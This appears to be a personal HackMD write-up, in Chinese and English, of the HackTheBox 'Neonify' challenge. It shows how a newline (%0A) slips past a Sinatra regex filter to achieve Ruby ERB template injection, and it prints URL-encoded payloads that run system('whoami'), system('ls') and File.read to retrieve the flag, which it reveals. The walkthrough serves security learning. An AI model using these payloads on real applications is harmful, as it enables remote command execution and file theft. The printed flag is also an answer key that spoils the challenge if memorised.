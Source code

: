 ```yaml
---
title: 'HackTheBox: Neonify'
disqus: hackmd
---
```


HackTheBox: Neonify
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/Neonify

### Initial Enumeration

●Start Machine: 
https://83.136.254.223:30167/
![image](https://hackmd.io/_uploads/rklu7sxH-C.png)

Submit: CHW
![image](https://hackmd.io/_uploads/rkq9sxS-0.png)
> CHW

Submit: $(ls) 
![image](https://hackmd.io/_uploads/BJEj2lrZ0.png)
> Malicious Input Detected

## Solution

### 1.Code Review
neon.rb
```ruby=
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

提交的@neon 需要符合正規表達式: `/^[0-9a-z ]+$/i`
1. 正則表達式的開始和結束都被斜槓 / 包圍
2. ^ 符號表示匹配字串的開頭
3. `[0-9a-z ] 匹配所有數字、小寫字母和空格
4. +表示至少有一個或多個符合前面指定的字符
5. $ 表示匹配字串的結尾
6. i 表示不區分大小寫

> ERB (Ruby)
> 想嘗試Ruby SSTI

### 2. SSTI
```
neon=<%= 7*7 %>
```
> 不符合正表達式，肯定會被擋

● [Ruby Bypass regular expression](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) : abc\n<%= 7*7 %>
> 嘗試過\n ，無法識別
> URL-encoded: %0A

### 3. %0A bypass regular expression
#### 3.1 neon=chw%0A<%= 7*7 %>
● 使用chw%0A<% 7*7 %>
```
neon=chw%0A%3C%257%2A7%25%3E
```
![image](https://hackmd.io/_uploads/SylqO_L-C.png)
> (1) 在網頁上直接輸入會被視為字元，使用 BurpSuite Repeater\
> (2) 嘗試 double encode

● 嘗試 double encode
```
neon=chw%0A%253C%2525%25207%252A7%2520%2525%253E
```
![image](https://hackmd.io/_uploads/HkpyWt8bA.png)

> 顯示 encode一次的值，代表:\
> (1) 輸入有效\
> (2) 確認系統會decode 一次\
> Final 試到天荒地老，後來才發現使用 <%= 才會顯示結果

● chw%0A<%= 7*7 %>
```
neon=chw%0A%3C%25%3D7%2A7%25%3E
```
![image](https://hackmd.io/_uploads/rJoROu8-0.png)
> 成功顯示 49。
> 代表成功執行ERB，可以進行SSTI

#### 3.2 Execute Command
● <%= system("whoami") %>
```
neon=chw%0A%3C%25%3D%20system%28%22whoami%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/Syrxj_8WR.png)
> 誤以為user: true

● <%= system("ls") %>
```
neon=chw%0A%3C%25%3D%20system%28%22ls%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/rkCYo_LZC.png)
> True again.
> 改用Ruby 語法

### 4. Read Files In Ruby: File.read('flag.txt')
● [Read Files In Ruby](https://www.rubyguides.com/2015/05/working-with-files-ruby/): **File.read/write/open('<file name>')**

● <%= File.read('/flag.txt') %>
```
neon=chw%0A%3C%25%3D%20File.read%28%27%2Fflag.txt%27%29%20%25%3E
```
![image](https://hackmd.io/_uploads/B1iphuLb0.png)
> 顯示500 Internal Server Error

 ![image](https://hackmd.io/_uploads/BJAC6dUb0.png)
> 猜測: 沒有權限訪問根目錄

### 5. Get FLAG

● **<%= File.read('flag.txt') %>** 
```
neon=chw%0A%3C%25%3D%20File.read%28%27flag.txt%27%29%20%25%3E
```  
![image](https://hackmd.io/_uploads/S1jvnOUb0.png)

> **FLAG: HTB{r3pl4c3m3n7_s3cur1ty}**
    
###### tags: `Web` `CTF` `SSTI`


